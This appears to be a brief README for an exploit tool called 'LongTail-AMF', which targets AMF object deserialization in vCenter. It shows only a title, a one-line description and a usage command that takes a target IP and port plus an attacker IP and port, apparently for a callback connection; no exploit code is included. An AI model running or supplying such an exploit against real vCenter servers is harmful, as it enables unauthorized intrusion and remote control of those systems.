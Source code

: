 # LongTail-AMF
vcenter AMF object deserialization exploit 


## Usage  
```bash
python3 longtail.py targetip targetport  attackip attacker port
```
